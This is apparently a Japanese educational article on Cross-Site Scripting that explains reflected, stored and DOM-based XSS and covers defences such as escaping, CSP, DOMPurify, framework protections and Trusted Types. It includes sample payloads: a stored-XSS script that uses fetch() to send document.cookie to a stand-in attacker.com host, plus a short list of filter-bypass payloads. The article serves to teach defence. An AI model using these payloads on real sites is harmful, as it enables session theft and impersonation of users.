



# Cross-Site Scripting (XSS)

Cross-Site Scripting（XSS）は、Webアプリケーションに存在する最も一般的かつ危険な脆弱性の一つであり、攻撃者が悪意のあるスクリプトを正当なWebページに注入し、他のユーザーのブラウザで実行させることを可能にする攻撃手法である。この脆弱性は、アプリケーションがユーザー入力を適切に検証およびエスケープせずに出力する場合に発生し、攻撃者は被害者のセッション情報の窃取、なりすまし、サイトの改ざんなど、様々な悪意のある行動を実行できるようになる。

XSSの本質は、Webアプリケーションがデータとコードを区別できないことにある。HTMLやJavaScriptの文脈において、テキストデータとして扱われるべき内容が実行可能なコードとして解釈されてしまうことで、攻撃者が意図しない動作を引き起こすことが可能となる。この問題は、動的なWebアプリケーションの普及とともに顕在化し、現在でもOWASP Top 10[^1]に継続的にランクインしている重要なセキュリティリスクである。

## XSSの分類と攻撃メカニズム

XSSは、その攻撃の性質と持続性によって主に3つのタイプに分類される。それぞれのタイプは異なる攻撃ベクトルと影響範囲を持ち、防御手法も微妙に異なる。



### 反射型XSS（Reflected XSS）

反射型XSSは、最も一般的なXSSの形態であり、悪意のあるスクリプトがHTTPリクエストの一部として送信され、即座にレスポンスに反映される攻撃である。典型的なシナリオでは、攻撃者は悪意のあるリンクを作成し、被害者がそのリンクをクリックすると、スクリプトが実行される。

例えば、検索機能を持つWebアプリケーションで、検索クエリがそのまま結果ページに表示される場合を考える。正常な使用では `https://example.com/search?q=javascript` のようなURLで検索が行われるが、攻撃者は `https://example.com/search?q=<script>alert(document.cookie)</script>` のようなURLを作成し、被害者に送付する。アプリケーションが入力を適切にエスケープしていない場合、このスクリプトは実行され、被害者のクッキー情報が表示される。

反射型XSSの特徴は、攻撃が一時的であり、被害者が悪意のあるリンクにアクセスした瞬間にのみ発生することである。しかし、ソーシャルエンジニアリングと組み合わせることで、大規模な攻撃が可能となる。フィッシングメールに悪意のあるリンクを埋め込み、正規のサイトのように見せかけることで、ユーザーの信頼を悪用することができる。

### 蓄積型XSS（Stored XSS）

蓄積型XSSは、悪意のあるスクリプトがサーバー側のデータベースやファイルシステムに保存され、他のユーザーがそのコンテンツを閲覧する際に実行される攻撃である。この種の攻撃は、掲示板、コメント欄、プロフィールページなど、ユーザー生成コンテンツを扱うシステムで頻繁に発生する。

攻撃の流れは以下のようになる。まず、攻撃者はコメント欄などに `<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>` のような悪意のあるスクリプトを投稿する。このスクリプトはデータベースに保存され、他のユーザーがそのページを閲覧するたびに実行される。結果として、訪問者全員のクッキー情報が攻撃者のサーバーに送信される。

蓄積型XSSは反射型と比較して、より深刻な脅威となる。なぜなら、一度注入されたスクリプトは削除されるまで永続的に存在し、そのページを訪れるすべてのユーザーに影響を与えるからである。特に、管理者権限を持つユーザーが被害に遭った場合、システム全体が危険にさらされる可能性がある。

### DOM型XSS

DOM型XSSは、クライアントサイドのJavaScriptコードがDOM（Document Object Model）を操作する際に発生する脆弱性である。この攻撃は、サーバー側のレスポンスには悪意のあるコードが含まれていないが、クライアントサイドのスクリプトが安全でない方法でユーザー入力を処理することで発生する。

典型的な例として、URLのフラグメント識別子（#以降の部分）やクエリパラメータを直接DOMに挿入するケースがある。以下のような脆弱なコードを考える：

```javascript
// Vulnerable code
var hash = location.hash.substring(1);
document.getElementById('content').innerHTML = hash;
```

攻撃者が `https://example.com/#` のようなURLを作成した場合、JavaScriptはこのHTMLをそのままDOMに挿入し、onerrorイベントハンドラが実行される。

DOM型XSSの特徴は、攻撃がクライアントサイドで完結するため、サーバーのログに攻撃の痕跡が残らないことである。これにより、検出と防御がより困難になる。また、Single Page Application（SPA）の普及により、クライアントサイドでの動的なDOM操作が増加し、この種の脆弱性が発生する機会も増えている。

## 攻撃手法の詳細分析

XSS攻撃を成功させるために、攻撃者は様々な技術とトリックを使用する。これらの手法を理解することは、効果的な防御策を構築する上で不可欠である。

### エンコーディングとバイパス技術

Webアプリケーションが基本的なフィルタリングを実装している場合でも、攻撃者は様々なエンコーディング技術を使用してこれらの防御を回避することができる。HTMLエンティティエンコーディング、URLエンコーディング、Unicodeエンコーディングなど、複数の手法を組み合わせることで、フィルタを通過する可能性がある。

例えば、`<script>` タグがフィルタリングされている場合、攻撃者は以下のような代替手法を使用する：

```html
<!-- Using event handlers -->

<body onload="alert('XSS')">

<!-- Using JavaScript protocol -->
<a href="javascript:alert('XSS')">Click me</a>

<!-- Using encoded characters -->
<script>alert&#40;'XSS'&#41;</script>

<!-- Using HTML5 features -->
<video><source onerror="alert('XSS')"></video>
```

さらに高度な技術として、ポリグロットペイロードと呼ばれる、複数の文脈で動作するペイロードがある。これらのペイロードは、HTMLコンテキスト、JavaScript文字列コンテキスト、URLコンテキストなど、どこに挿入されても実行される可能性がある。

### コンテキスト依存の攻撃

XSS攻撃の成功は、ペイロードが挿入されるコンテキストに大きく依存する。HTMLコンテキスト、属性コンテキスト、JavaScriptコンテキスト、CSSコンテキストなど、それぞれに適した攻撃手法が存在する。



HTMLコンテキストでは、新しいHTMLタグを挿入することが主な攻撃手法となる。属性コンテキストでは、属性値を閉じて新しい属性を追加することで攻撃を行う。JavaScriptコンテキストでは、文字列リテラルをエスケープして任意のコードを実行する。各コンテキストには特有のエスケープ要件があり、一つのエスケープ手法がすべてのコンテキストで有効というわけではない。

## 防御メカニズムの実装

XSSに対する防御は、多層防御の原則に基づいて実装される必要がある。単一の防御手法に依存することは危険であり、複数の防御層を組み合わせることで、攻撃者が突破することを困難にする。

### 出力エスケープの原則

最も基本的かつ重要な防御手法は、適切な出力エスケープである。エスケープとは、特殊な意味を持つ文字を無害な表現に変換するプロセスであり、データがコードとして解釈されることを防ぐ。重要なのは、エスケープはコンテキストに応じて行う必要があるということである。

HTMLコンテキストでのエスケープでは、以下の文字を対応するHTMLエンティティに変換する：

- `<` → `&lt;`
- `>` → `&gt;`
- `&` → `&amp;`
- `"` → `&quot;`
- `'` → `&#x27;`

しかし、JavaScriptコンテキストでは異なるエスケープが必要となる。例えば、JavaScriptの文字列リテラル内では、シングルクォート、ダブルクォート、バックスラッシュ、改行文字などをエスケープする必要がある。

```javascript
// Unsafe
var userName = '<%= request.getParameter("name") %>';

// Safe
var userName = '<%= JavaScriptUtils.javaScriptEscape(request.getParameter("name")) %>';
```

URLコンテキストでは、URLエンコーディングを使用し、CSSコンテキストでは、CSS特有のエスケープルールに従う必要がある。コンテキストを誤認識してエスケープを行うと、防御が無効になるだけでなく、新たな脆弱性を生み出す可能性がある。

### Content Security Policy (CSP)

Content Security Policy[^2]は、XSSやその他のコードインジェクション攻撃を緩和するために設計されたセキュリティ標準である。CSPは、ブラウザに対してどのリソースの読み込みや実行を許可するかを指示する宣言的なポリシーである。

CSPの実装は、HTTPレスポンスヘッダーまたはHTMLの`<meta>`タグを通じて行われる：

```http
Content-Security-Policy: default-src 'self'; 
                         script-src 'self' https://trusted-cdn.com; 
                         style-src 'self' 'unsafe-inline';
                         img-src 'self' data: https:;
                         connect-src 'self' https://api.example.com;
```

このポリシーは、スクリプトの実行を自身のドメインと信頼されたCDNからのみ許可し、インラインスクリプトの実行を禁止する。CSPの強力な点は、たとえXSS脆弱性が存在しても、注入されたスクリプトの実行を防ぐことができることである。

CSPの実装において重要なのは、段階的な導入アプローチである。最初は`Content-Security-Policy-Report-Only`ヘッダーを使用してポリシー違反を監視し、既存の機能を破壊しないことを確認してから、実際のポリシーを適用する。また、`nonce`や`hash`を使用することで、必要なインラインスクリプトのみを許可することができる：

```html
<!-- CSP header -->
Content-Security-Policy: script-src 'nonce-r4nd0m123';

<!-- HTML -->
<script nonce="r4nd0m123">
    // This script will execute
    console.log('Trusted script');
</script>
```

### 入力検証とサニタイゼーション

入力検証は、XSS防御の第一線として機能する。しかし、入力検証だけでXSSを完全に防ぐことは不可能であり、出力エスケープと組み合わせて使用する必要がある。入力検証の目的は、明らかに悪意のある入力を早期に検出し、拒否することである。

効果的な入力検証の原則には以下が含まれる：

許可リスト方式の採用：期待される入力パターンを定義し、それ以外を拒否する。例えば、ユーザー名には英数字とアンダースコアのみを許可し、HTMLタグやJavaScriptキーワードを含む入力を拒否する。

長さ制限の実装：過度に長い入力は、バッファオーバーフローやその他の攻撃の兆候である可能性がある。適切な長さ制限を設定することで、多くの攻撃ペイロードを防ぐことができる。

データ型の検証：数値フィールドには数値のみ、日付フィールドには有効な日付形式のみを受け入れる。型の不一致は、多くの場合、攻撃の試みを示している。

サニタイゼーションは、より積極的なアプローチであり、潜在的に危険な要素を入力から除去または無害化する。HTMLサニタイゼーションライブラリ（DOMPurify[^3]など）は、安全なHTMLタグと属性のみを許可し、危険な要素を除去する：

```javascript
// Using DOMPurify
var clean = DOMPurify.sanitize(dirty, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a'],
    ALLOWED_ATTR: ['href']
});
```

### HTTPセキュリティヘッダーの活用

XSS防御を強化するために、複数のHTTPセキュリティヘッダーを組み合わせて使用することが推奨される。これらのヘッダーは、ブラウザのセキュリティ機能を有効にし、攻撃の影響を軽減する。

`X-XSS-Protection`ヘッダーは、ブラウザの組み込みXSSフィルターを制御する。現代のブラウザでは廃止されつつあるが、レガシーブラウザのサポートのために設定することが推奨される：

```http
X-XSS-Protection: 1; mode=block
```

`X-Content-Type-Options`ヘッダーは、MIMEタイプスニッフィングを防ぎ、宣言されたコンテンツタイプに従ってリソースを処理するようブラウザに指示する：

```http
X-Content-Type-Options: nosniff
```

これにより、テキストファイルとしてアップロードされたファイルがHTMLやJavaScriptとして解釈されることを防ぐ。

## 現代的なWebフレームワークにおけるXSS対策

現代のWebフレームワークは、XSS防御を容易にするための多くの機能を提供している。これらのフレームワークは、デフォルトで安全な動作を行い、開発者が明示的に安全でない操作を選択しない限り、XSS脆弱性が発生しにくい設計となっている。

### Reactにおける自動エスケープ

Reactは、JSX内のすべての値をデフォルトでエスケープする。これにより、開発者が特別な注意を払わなくても、基本的なXSS攻撃から保護される：

```jsx
// Safe by default
function Welcome(props) {
    return <h1>Hello, {props.name}</h1>;
}

// Even if props.name contains "<script>alert('XSS')</script>"
// It will be rendered as text, not executed
```

ただし、`dangerouslySetInnerHTML`を使用する場合は、開発者が責任を持ってサニタイゼーションを行う必要がある：

```jsx
// Dangerous - requires careful handling
function MyComponent({htmlContent}) {
    // Sanitize before using
    const sanitized = DOMPurify.sanitize(htmlContent);
    return <div dangerouslySetInnerHTML={{__html: sanitized}} />;
}
```

### AngularのセキュリティコンテキストAPI

Angularは、セキュリティコンテキストの概念を導入し、異なるコンテキストで適切なサニタイゼーションを自動的に適用する。HTMLコンテキスト、スタイルコンテキスト、URLコンテキストなど、それぞれに対して適切な処理が行われる。

```typescript
// Angular automatically sanitizes values
@Component({
    template: '<div [innerHTML]="userContent"></div>'
})
export class MyComponent {
    userContent = '<script>alert("XSS")</script>'; // Will be sanitized
}
```

Angularは、信頼できるコンテンツを明示的にマークするためのAPIも提供している：

```typescript
import { DomSanitizer } from '@angular/platform-browser';

constructor(private sanitizer: DomSanitizer) {}

getTrustedHtml(html: string) {
    return this.sanitizer.bypassSecurityTrustHtml(html);
}
```

### サーバーサイドレンダリングとXSS

サーバーサイドレンダリング（SSR）を使用する場合、XSS防御には追加の考慮事項がある。SSRでは、初期HTMLがサーバー側で生成され、その後クライアント側でハイドレーションが行われる。この過程で、サーバー側とクライアント側の両方でセキュリティを確保する必要がある。

Next.jsなどのSSRフレームワークでは、サーバー側でのレンダリング時にも自動エスケープが適用される。しかし、初期状態の受け渡しやメタデータの設定において、適切なエスケープを確実に行う必要がある：

```javascript
// Next.js - Passing initial state safely
export async function getServerSideProps(context) {
    const data = await fetchUserData(context.query.id);
    
    return {
        props: {
            // Data is automatically escaped when rendered
            initialData: data
        }
    };
}
```

## ブラウザのセキュリティモデルとXSS

XSSの理解と防御には、ブラウザのセキュリティモデル、特に同一オリジンポリシー（Same-Origin Policy）[^4]の理解が不可欠である。同一オリジンポリシーは、異なるオリジン間でのリソースアクセスを制限することで、Webアプリケーションのセキュリティを保護する基本的なメカニズムである。



XSS攻撃が成功すると、攻撃者のスクリプトは被害者のオリジンのコンテキストで実行される。これにより、同一オリジンポリシーの保護が事実上無効化され、攻撃者は以下のような操作が可能になる：

- 現在のページのDOM全体へのアクセス
- 同一オリジンのCookieやローカルストレージへのアクセス
- 同一オリジンへのXMLHttpRequestの送信
- WebSocketを使用した双方向通信の確立

この特権的なアクセスにより、攻撃者は被害者のセッションを完全に制御できるようになる。例えば、銀行のWebサイトでXSSが発生した場合、攻撃者は被害者の口座情報を読み取り、送金操作を実行することができる。

### CORSとXSSの相互作用

Cross-Origin Resource Sharing（CORS）[^5]は、同一オリジンポリシーを緩和するメカニズムであるが、XSSの文脈では追加のリスクをもたらす可能性がある。不適切に構成されたCORSポリシーは、XSS攻撃の影響を拡大する可能性がある。

例えば、以下のような過度に寛容なCORSポリシーは危険である：

```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

このような設定では、XSSによって注入されたスクリプトが、任意の外部ドメインに認証情報付きでリクエストを送信できるようになる。適切なCORSポリシーの設定は、許可するオリジンを明示的に指定し、認証情報の送信を必要最小限に制限することである。

## 実装における実践的な考慮事項

XSS防御の実装において、理論的な知識と実践的な適用の間にはギャップが存在する。現実のアプリケーション開発では、パフォーマンス、使いやすさ、保守性などの要因も考慮する必要がある。

### パフォーマンスへの影響

厳格なXSS防御策は、アプリケーションのパフォーマンスに影響を与える可能性がある。特に、すべての出力に対して複雑なサニタイゼーションを行う場合、処理時間が増加する。しかし、セキュリティとパフォーマンスのトレードオフにおいて、セキュリティを優先すべきである。

パフォーマンスの最適化には以下のアプローチが有効である：

- サニタイゼーション結果のキャッシング
- 入力時の一度だけのサニタイゼーション（ただし、出力エスケープは必須）
- 効率的なサニタイゼーションライブラリの選択
- CDNを使用したCSPの配信

### レガシーシステムとの統合

多くの組織では、レガシーシステムと新しいセキュリティ対策を統合する必要がある。レガシーシステムは、現代的なセキュリティ機能をサポートしていない可能性があり、段階的な移行戦略が必要となる。

Web Application Firewall（WAF）の導入は、レガシーシステムに対する一時的な保護層として機能する。WAFは、既知のXSSパターンを検出してブロックすることができるが、完全な解決策ではない。長期的には、アプリケーションコードレベルでの修正が必要である。

### 開発プロセスへの統合

XSS防御は、開発プロセス全体に統合される必要がある。セキュアコーディングガイドラインの策定、コードレビューでのセキュリティチェック、自動化されたセキュリティテストの実装などが含まれる。

静的解析ツールの活用により、開発段階でXSS脆弱性を検出できる。ESLintのセキュリティプラグインや、専門的なSASTツールは、危険なパターンを自動的に検出する：

```javascript
// ESLint rule to detect dangerouslySetInnerHTML
{
    "rules": {
        "react/no-danger": "error",
        "react/no-danger-with-children": "error"
    }
}
```

動的解析やペネトレーションテストも重要である。ZAP（Zed Attack Proxy）やBurp Suiteなどのツールを使用して、実行時のXSS脆弱性を検出する。これらのツールは、様々な攻撃ベクトルを自動的にテストし、脆弱性を報告する。

## XSS攻撃の影響と事例分析

XSS攻撃の影響は、単なる迷惑行為から深刻なセキュリティ侵害まで幅広い。実際の攻撃事例を分析することで、XSS防御の重要性がより明確になる。

2005年に発生したMySpaceのSamyワーム[^6]は、XSSの破壊的な可能性を示した初期の例である。このワームは、プロフィールページのXSS脆弱性を悪用し、24時間以内に100万人以上のユーザーに感染した。ワームは自己複製し、感染したプロフィールを閲覧したユーザーのプロフィールにも自動的に拡散した。

より最近の例では、大手企業のWebアプリケーションで発見されたXSS脆弱性により、ユーザーの個人情報や決済情報が危険にさらされた事例がある。攻撃者は、XSSを使用してユーザーのセッショントークンを窃取し、被害者になりすまして不正な取引を行うことができた。

これらの事例から学ぶべき教訓は、XSS脆弱性は単独で存在するのではなく、他の攻撃手法と組み合わせて使用されることが多いということである。XSSは、より複雑な攻撃チェーンの入り口として機能することが多く、初期の侵入ポイントとして使用される。

## 将来の展望とセキュリティの進化

Web技術の進化とともに、XSS攻撃と防御の手法も進化し続けている。新しいWeb APIやブラウザ機能の導入により、新たな攻撃ベクトルが生まれる一方で、より強力な防御メカニズムも開発されている。

Trusted Typesは、DOM XSSを防ぐための新しいブラウザAPIである。このAPIは、DOM操作において信頼できる値のみを受け入れるように制限し、文字列ベースのDOM操作を型安全にする：

```javascript
// Enable Trusted Types
Content-Security-Policy: require-trusted-types-for 'script';

// Create a policy
const policy = trustedTypes.createPolicy('default', {
    createHTML: (input) => DOMPurify.sanitize(input),
    createScriptURL: (url) => {
        if (url.startsWith('https://trusted-cdn.com/')) {
            return url;
        }
        throw new Error('Untrusted script URL');
    }
});

// Use the policy
element.innerHTML = policy.createHTML(userInput);
```

さらに、機械学習を活用したXSS検出システムの研究も進んでいる。これらのシステムは、既知のパターンに依存せず、異常な動作を検出することで、ゼロデイXSS攻撃を防ぐ可能性がある。

XSSは、Webセキュリティにおける永続的な課題であり続けるが、開発者コミュニティ、ブラウザベンダー、セキュリティ研究者の協力により、より安全なWebエコシステムの構築が進んでいる。重要なのは、セキュリティを後付けの機能としてではなく、設計段階から組み込むことであり、継続的な教育と意識向上が不可欠である。

[^1]: OWASP Top 10 Web Application Security Risks: https://owasp.org/www-project-top-ten/
[^2]: Content Security Policy Level 3, W3C Working Draft: https://www.w3.org/TR/CSP3/
[^3]: DOMPurify - DOM-only XSS sanitizer: https://github.com/cure53/DOMPurify
[^4]: Same-origin policy, MDN Web Docs: https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
[^5]: Cross-Origin Resource Sharing (CORS), W3C Recommendation: https://www.w3.org/TR/cors/
[^6]: Kamkar, S. (2005). Technical explanation of The MySpace Worm: https://samy.pl/myspace/tech.html